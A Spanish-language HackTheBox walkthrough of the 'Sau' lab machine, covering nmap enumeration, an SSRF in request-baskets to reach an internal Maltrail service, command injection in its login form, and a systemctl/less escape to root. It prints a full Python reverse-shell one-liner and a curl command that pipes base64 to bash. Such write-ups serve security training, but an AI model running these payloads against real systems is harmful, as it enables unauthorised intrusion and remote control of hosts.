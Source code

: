 ```yaml
---
layout: default
title: Sau
parent: HackTheBox
---
```


# Color Utilities
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---

{:.lead}

## Enumeracion

Iniciamos con un escaneo de nmap con:

```ruby
nmap -sS -n -Pn -T4 --open -p- 10.10.11.224
```

- sS: haga un TCP SYN Scan el cual hace un escaneo sigiloso sin completar las conexiones TCP, responde con un SYN/ACK si el puerto esta abierto

- n: para que no haga resolucion DNS y tarde menos el escaneo

- Pn: para evitar el descubrimiento de hosts

- open: para que solo muestre los puertos abiertos

- -p-: para que escanee todo el rango de puertos

Y nos reporto el puerto 22 (SSH) y 55555:

```ruby
PORT      STATE SERVICE
22/tcp    open  ssh
55555/tcp open  unknown
```

Adicionalmente, si mostramos los puertos filtrados, nos saldra el puerto **80**

```ruby
80/tcp    filtered http
```

Ahora escanearemos para obtener mas informacion sobre la version y el servicio que estan corriendo bajo esos puertos. En el puerto 55555 nos mostrara que encontro informacion de un sitio web y el recurso **web**:

```ruby
nmap -sCV -p22,22,55555 10.10.11.224
```

```ruby
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
55555/tcp open  unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Tue, 02 Jan 2024 22:20:01 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Tue, 02 Jan 2024 22:19:33 GMT
|     Content-Length: 27
|     href="/web">Found</a>. <-- recurso de un sitio web
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Tue, 02 Jan 2024 22:19:34 GMT
|_    Content-Length: 0
```

### Analisis del puerto 55555

El puerto **55555** corresponde a un servidor web, por defecto nos manda al recurso **web** como se puede ver: 

![](/assets/img/sau/1.png)

Si vemos en el footer del sitio, aparecera que esta usando **request-baskets** es una version

```
Powered by request-baskets | Version: 1.2.1 
```

Al realizar una busqueda en google, podemos notar que es vulnerable a **SSRF**

[https://www.akto.io/cves/CVE-2023-27163-requestbaskets-up-to-v-was-discovered-to-contain-a-serverside](https://www.akto.io/cves/CVE-2023-27163-requestbaskets-up-to-v-was-discovered-to-contain-a-serverside)

Nos menciona que esta vulnerabilidad nos permite acceder a recursos internos a travez de una peticion a la API que ejecuta por detras **request-baskets**

Analizando un poco mas las opciones del sitio, nos encontramos que podemos crear **baskets** y luego acceder a ellas mediante una URL. Al explorar una basket creada, podemos ver las solicitudes que se han echo asi como mas informacion, tambieb modificar algunas cosas de configuracion: 

![](/assets/img/sau/2.png)

Tenemos la capacidad de hacer **URL forwarding**, es decir, hacer una redireccion a una URL.

## SSRF - access port 80

**SSRF:** Server-side request forgery es una vulnerabilidad que permite a los atancantes realizar peticiones arbitrarias con el fin de acceder a servicios internos de la maquina.

Recapitulando, debido a que tenemos un **SSRF**, una redireccion URL, y el puerto 80 filtrado, podemos intentar modificar la configuracion de una **basket** de esta forma:

![](/assets/img/sau/3.png)

Lo que estaria pasando, es que cuando nosotros ingresemos a la URL que se genero cuando se crea un **basket**, esa peticion se estaria redireccionado a **127.0.0.1:80**, y como existe un SSRF, estariamos accediendo al servicio interno de la maquina que corre en **127.0.0.1:80**, lo cual indica que el SSRF se exploto correctamente como se puede ver

![](/assets/img/sau/4.png)

## RCE - Maltrail (v0.53)

Como se observa al final, se esta usando la version 0.53 de Maltrail, al realizar una busqueda rapida en google, nos daremos cuenta que que podemos explotar una vulnerabilidad para conseguir RCE, leyendo un poco de la vulnerabilidad, el parametro **username** del recurso **login** no se sanitiza correctamente, lo cual permie que podamos inyectar comandos, por lo cual podemos explotarla directamente usando curl:

Usaremos python para crear una revese shell:

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>", <puerto>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```
    Recuerda cambiar la IP y el puerto

Luego lo codificaremos en b64 y usaremos este comando para enviar una peticion por POST y en el parametro **username** le encadenamos el comando

```ruby
curl -X POST "http://10.10.11.224:55555/dihpeef/login" -d "username=;$(echo "<base 64>" | base64 -d | bash)"
```

La URL debe ser por una basket que hayas creado y obtendremos una conexion

![](/assets/img/sau/5.png)

(A este punto tenemos la flag de user)

## Escalada de privilegios

Si vemos los permisos de nivel de sudoers, podremos ver que el usuario puma puede ejecutar **systemctl** sin contraseña:

    Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User puma may run the following commands on sau:
        (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service

Debido a que cuando ejecutamos comando con systemctl usa una interfaz o vista similar a la del comando **less**, podemos inyectar comando al final de la vista de systemctl de la siguiente manera

![](/assets/img/sau/6.png)

Observa como al final de la vista o cuando termina la informacion mostrada, se le ingresa el comando que queremos ejecutar, en este caso fue **!bash** (ignorar el WARNING: terminal is not fully functional, no la hice fully interactive TTY)

Con eso hemos conseguido root

Eso ha sido todo, gracias por leer ❤
